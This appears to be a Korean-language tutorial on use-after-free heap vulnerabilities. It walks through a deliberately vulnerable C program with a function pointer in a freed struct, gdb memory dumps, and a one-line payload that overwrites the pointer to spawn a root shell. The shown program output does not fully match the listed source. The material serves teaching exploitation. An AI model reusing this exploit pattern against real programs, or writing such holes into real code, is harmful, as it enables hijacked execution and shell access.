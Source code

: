 ## **Concept**

Heap 영역에 할당을 할때 Free 해준 공간을 다시 재사용하여 발생하는 취약점이다. 만약 함수포인터가 동적할당이 되어있을 경우 실행흐름도 조작 가능하다.  

공격자가 Heap 영역을 할당하거나 해제할 수 있어야하고 해제된 영역의 크기와 같거나 작은 영역을 할당해야 한다.

## **Proof of Concept**

```c
// gcc uaf.c -o uaf
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
 
typedef struct {
    char name[32];
    void (*print)(void*);
} test;
 
typedef struct {
    char name[128];
} string;
 
void printName(test *t) {
    printf("%s\n", t->name);
}
 
void shell() {
    printf("This is shell!! You know UAF vuln!\n");
    system("/bin/sh");
}
 
int main() {
    test* t1;
    string *s1;
    t1 = malloc(256);
    
    strcpy(t1->name, "I LOVE CHAEYOUNG");
    t1->print = (void*)printName;
    
    t1->print(t1);
    
    free(t1);
    
    s1 = malloc(256);
    
    scanf("%128s", s1->name);
    t1->print(t1);
    return 0;
}
```

malloc() 함수로 Heap을 재할당 하는 부분에서 Breakpoint를 걸고 확인해보면 t1에서 사용했던 함수 포인터(printName)를 확인할 수 있다. t1->name은 fk, bk로 채워진 것을 확인할 수 있다.

```
[-------------------------------------code-------------------------------------]
   0x4006ee <main+82>:	call   0x400500 <free@plt>
   0x4006f3 <main+87>:	mov    edi,0x100
   0x4006f8 <main+92>:	call   0x400540 <malloc@plt>
=> 0x4006fd <main+97>:	mov    QWORD PTR [rbp-0x8],rax
   0x400701 <main+101>:	mov    rax,QWORD PTR [rbp-0x8]
   0x400705 <main+105>:	mov    rsi,rax
   0x400708 <main+108>:	mov    edi,0x4007e3
   0x40070d <main+113>:	mov    eax,0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00000000004006fd in main ()
gdb-peda$ info r rax
rax            0x602010	0x602010
gdb-peda$ x/12gx 0x602010
0x602010:	0x00007ffff7dd1b78               0x00007ffff7dd1b78
0x602020:	0x0000000000000000               0x0000000000000000
0x602030:	0x0000000000400666 <- printName  0x0000000000000000

gdb-peda$ x/3i 0x0000000000400666
   0x400666 <printName>:	push   rbp
   0x400667 <printName+1>:	mov    rbp,rsp
   0x40066a <printName+4>:	sub    rsp,0x10
```

따라서 32 byte를 입력 후 함수 포인터에 &shell()를 입력하면 t1->print(t1)을 호출하므로 shell()을 호출이 가능하다.

```
gdb-peda$ x/12gx 0x602010
0x602010:	0x4141414141414141	0x4141414141414141
0x602020:	0x4141414141414141	0x4141414141414141
0x602030:	0x4242424242424242 	0x0000000000000000

gdb-peda$ p shell
$1 = {<text variable, no debug info>} 0x400681 <shell>
```

## **Exploit**
```
root@bs-virtual-machine:~/pwnable/uaf# (python -c 'print "A"*32 + "\x81\x06\x40"';cat) | ./uaf
UAF TEST!!!
This is shell!! You know UAF vuln!

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/root/pwnable/uaf
```

**References**  
[https://www.lazenca.net/pages/viewpage.action?pageId=1148139](https://www.lazenca.net/pages/viewpage.action?pageId=1148139)  
[https://bpsecblog.wordpress.com/2016/10/06/heap_vuln/](https://bpsecblog.wordpress.com/2016/10/06/heap_vuln/)  
[https://shotgh.tistory.com/62](https://shotgh.tistory.com/62)

